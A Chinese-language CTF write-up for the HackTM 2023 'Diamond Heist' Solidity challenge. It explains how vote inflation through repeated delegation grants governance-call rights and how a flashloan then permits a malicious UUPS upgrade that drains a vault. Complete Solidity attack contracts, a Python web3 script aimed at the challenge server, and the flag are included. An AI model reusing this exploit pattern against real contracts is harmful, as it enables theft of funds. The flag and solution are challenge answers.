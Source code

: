 ```yaml
---
title: Blockchain - Diamond Heist
description: 2023 | HackTM CTF | smart contract
tags:
    - smart contract
    - solidity
    - flashloan
    - UUPS
---
```


## 题目

Salty Pretzel Swap DAO has recently come out with their new flashloan vaults. They have deposited all of their 100 Diamonds in one of their vaults.

Your mission, should you choose to accept it, is to break the vault and steal all of the diamonds. This would be one of the greatest heists of all time.

This text will self-destruct in ten seconds.

Good luck.

> nc 34.141.16.87 30200

[:material-download: `diamond_heist_contracts.zip`](static/diamond_heist_contracts.zip)

## 解题思路

- 目标是将 100 Diamonds 转移到 `Setup` 实例

    ```js
    // contract Setup
    function isSolved() external view returns (bool) {
        return diamond.balanceOf(address(this)) == DIAMONDS;
    }
    ```

- `Setup` 部署后，`Vault` 的代理合约持有 100 Diamonds，显然需要通过更新合约来进行 Diamond 的转移操作。不过，`Vault` 采用 UUPS 代理模式，虽然没有初始化其逻辑合约，但由于存在 `onlyProxy` 修饰符，无法通过逻辑合约升级

    ```js
    // contract Setup
    constructor () {
        vaultFactory = new VaultFactory();
        vault = vaultFactory.createVault(keccak256("The tea in Nepal is very hot."));
        diamond = new Diamond(DIAMONDS); // uint constant public DIAMONDS = 100;
        saltyPretzel = new SaltyPretzel();
        vault.initialize(address(diamond), address(saltyPretzel));
        diamond.transfer(address(vault), DIAMONDS);
    }
    ```

- 当 `Vault` 代理合约的调用者为 `owner` 或代理合约自身且代理合约持有 Diamond 的数量为 $0$ 时，允许更新合约逻辑

    ```js
    // contract Vault
    function _authorizeUpgrade(address) internal override view {
        require(msg.sender == owner() || msg.sender == address(this));
        require(IERC20(diamond).balanceOf(address(this)) == 0);
    }
    ```

- `Vault` 代理合约的所有者为 `Setup`，而 `Setup` 中没有 `transferOwnership` 相关的逻辑，无法以 `owner` 身份更新。注意到当调用者的票数不小于 `AUTHORITY_THRESHOLD` 时，可以以 `Vault` 代理合约的身份调用 `Vault` 中的任意函数

    ```js
    // contract Vault
    uint constant public AUTHORITY_THRESHOLD = 10_000 ether;
    function governanceCall(bytes calldata data) external {
        require(msg.sender == owner() || saltyPretzel.getCurrentVotes(msg.sender) >= AUTHORITY_THRESHOLD);
        (bool success,) = address(this).call(data);
        require(success);
    }
    ```

- 至于使 `IERC20(diamond).balanceOf(address(this)) == 0` 可以通过 `flashloan` 解决

    ```js
    // contract Vault
    function flashloan(address token, uint amount, address receiver) external {
        uint balanceBefore = IERC20(token).balanceOf(address(this)); // 只能借用代理合约持有的 token
        IERC20(token).transfer(receiver, amount);
        IERC3156FlashBorrower(receiver).onFlashLoan(msg.sender, token, amount, 0, "");
        uint balanceAfter = IERC20(token).balanceOf(address(this));
        require(balanceBefore == balanceAfter);
    }
    ```

- 那么，接下来考虑如何获取足够的票数。初始可通过 `Setup.claim()` 获得 `SALTY_PRETZELS(100 ether)`，`mint` 将首先增加 `_to` 持有的代币数量，随后增加 `_delegates[_to]` 的票数。由于 `srcRep` 为 `address(0)`，不对其执行减少票数的操作，因而总票数是增加的

    ```js
    // contract SaltyPretzel
    function mint(address _to, uint256 _amount) public onlyOwner {
        _mint(_to, _amount);
        _moveDelegates(address(0), _delegates[_to], _amount);
    }

    function _moveDelegates(address srcRep, address dstRep, uint256 amount) internal {
        if (srcRep != dstRep && amount > 0) {
            if (srcRep != address(0)) {
                uint32 srcRepNum = numCheckpoints[srcRep];
                uint256 srcRepOld = srcRepNum > 0 ? checkpoints[srcRep][srcRepNum - 1].votes : 0;
                uint256 srcRepNew = srcRepOld - amount;
                _writeCheckpoint(srcRep, srcRepNum, srcRepOld, srcRepNew);
            }

            if (dstRep != address(0)) {
                uint32 dstRepNum = numCheckpoints[dstRep];
                uint256 dstRepOld = dstRepNum > 0 ? checkpoints[dstRep][dstRepNum - 1].votes : 0;
                uint256 dstRepNew = dstRepOld + amount;
                _writeCheckpoint(dstRep, dstRepNum, dstRepOld, dstRepNew);
            }
        }
    }
    ```

- 代币 `SP` 的数量自 `Setup.claim()` 后不再变化，`_moveDelegates` 从 `address(0)` 到任意不为 0 的地址似乎是增加总票数的唯一方法。当 `delegator` 初次声明 `delegatee` 时，`currentDelegate` 为 `address(0)`，将为 `delegatee` 增加 `balanceOf(delegator)` 票。那么，可以将持有的代币转移给新的 `delegator` 再由其调用 `delegate()` 来增加 `delegatee` 的票数

    ```js
    // contract SaltyPretzel
    function delegate(address delegatee) external {
        return _delegate(msg.sender, delegatee);
    }

    function _delegate(address delegator, address delegatee) internal
    {
        address currentDelegate = _delegates[delegator];
        uint256 delegatorBalance = balanceOf(delegator);
        _delegates[delegator] = delegatee;

        emit DelegateChanged(delegator, currentDelegate, delegatee);

        _moveDelegates(currentDelegate, delegatee, delegatorBalance);
    }
    ```

### Exploit

```js
contract HackerVault is Vault { // new implementation should also be UUPS
    function exploit(address token, address setup) external {
        IERC20(token).transfer(address(setup), 100);
    }
}

contract Helper {
    function help(address instance) external {
        SaltyPretzel(instance).delegate(msg.sender);
        SaltyPretzel(instance).transfer(msg.sender, 100 ether);
    }
}

contract Hack is IERC3156FlashBorrower {
    Setup setup;
    SaltyPretzel saltyPretzel;
    Vault vault;

    constructor(address instance) {
        setup = Setup(instance);
        saltyPretzel = SaltyPretzel(setup.saltyPretzel());
        vault = Vault(setup.vault());
    }

    function exploit() external {
        saltyPretzel.delegate(address(this));
        setup.claim();
        for (uint i = 1; i < 100; i ++) {
            Helper helper = new Helper();
            saltyPretzel.transfer(address(helper), 100 ether);
            helper.help(address(saltyPretzel));
        }
        vault.flashloan(address(setup.diamond()), 100, address(this));
    }

    function onFlashLoan(address, address token, uint256 amount, uint256, bytes calldata) external override returns (bytes32) {
        HackerVault hackerVault = new HackerVault();
        vault.governanceCall(abi.encodeWithSignature(
            "upgradeTo(address)",
            address(hackerVault)
        ));
        IERC20(token).transfer(address(vault), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

```py
from web3 import Web3
import pwn

hack_abi = open('hack_abi.json').read()
hack_bytecode = open('hack_bytecode.txt', 'r').read()

hackervault_abi = open('hackervault_abi.json').read()
hackervault_bytecode = open('hackervault_bytecode.txt').read()

setup_abi = open('setup_abi.json').read()

def transact(func):
    tx = account.sign_transaction(eval(func).buildTransaction({
        'chainId': w3.eth.chain_id,
        'nonce': w3.eth.get_transaction_count(account.address),
        'gas': eval(func).estimate_gas(),
        'gasPrice': w3.eth.gas_price,
    })).rawTransaction
    tx_hash = w3.eth.send_raw_transaction(tx).hex()
    return w3.eth.wait_for_transaction_receipt(tx_hash)

conn = pwn.remote('34.141.16.87', 30200)

conn.sendlineafter(b'action?', b'1')
ticket = conn.recvline_contains(b'ticket').decode().split(' ')[-1].strip()
w3 = Web3(Web3.HTTPProvider(conn.recvline_contains(b'rpc').decode().split(' ')[-1]))
account = w3.eth.account.from_key(conn.recvline_contains(b'key').decode().split(' ')[-1])

setup_addr = conn.recvline_contains(b'contract').decode().split(' ')[-1].strip()
setup_contract = w3.eth.contract(address=setup_addr, abi=setup_abi)

hack_contract = w3.eth.contract(abi=hack_abi, bytecode=hack_bytecode)
hack_addr = transact('hack_contract.constructor(setup_addr)').contractAddress
hack_contract = w3.eth.contract(address=hack_addr, abi=hack_abi)
print(hack_addr)

transact('hack_contract.functions.exploit()')

vault_addr = setup_contract.functions.vault().call()
diamond_addr = setup_contract.functions.diamond().call()
hackervault_contract = w3.eth.contract(address=vault_addr, abi=hackervault_abi)
transact('hackervault_contract.functions.exploit(diamond_addr, setup_addr)')

if setup_contract.functions.isSolved().call():
	conn = pwn.remote('34.141.16.87', 30200)
	conn.sendlineafter(b'action?', b'3')
	conn.sendlineafter(b'ticket please:', ticket)
	conn.interactive()
```

### Flag

> HackTM{m1ss10n_n0t_th4t_1mmut4ble_58fb67c04fd7fedc}

## 参考资料

- [UUPSUpgradeable](https://docs.openzeppelin.com/contracts/4.x/api/proxy#UUPSUpgradeable)